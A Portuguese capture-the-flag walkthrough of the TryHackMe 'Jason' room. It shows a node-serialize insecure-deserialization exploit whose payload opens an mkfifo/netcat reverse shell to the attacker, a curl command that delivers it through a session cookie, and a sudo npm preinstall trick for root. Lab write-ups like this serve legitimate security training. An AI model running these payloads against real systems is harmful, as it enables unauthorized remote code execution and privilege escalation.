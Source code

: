 # Jason
https://tryhackme.com/room/jason

## Reconhecimento do alvo e exploração
Realizando uma varredura de portas com nmap:

        PORT   STATE SERVICE
        22/tcp open  ssh
        80/tcp open  http

No site, ao enviar o email é adicionado um cookie em base64 que contem um json {"email":"test@email.com"}.
O site está vulneravel à deserialização insegura, com isso, basta colocar um script no valor do "email".

```js
var serialize = require('node-serialize');


x = {
email : function(){
  require('child_process').execSync("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <IP> 4444 >/tmp/f", function puts(error, stdout, stderr) {});
}
};

console.log("Serialized: \n" + serialize.serialize(x));

```
Convertendo a saída para base64, basta roda o codigo abaixo:

```sh
nc -lnvp 4444
curl -b "session=<base64_acima>" http://<IP>
```

## Privesc
É possível rodar "sudo -l" e ver que o __npm__ roda como superusuario, com isso basta rodar o comando tirado do GTFObins:

```sh
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
sudo npm -C $TF --unsafe-perm i
```

GG
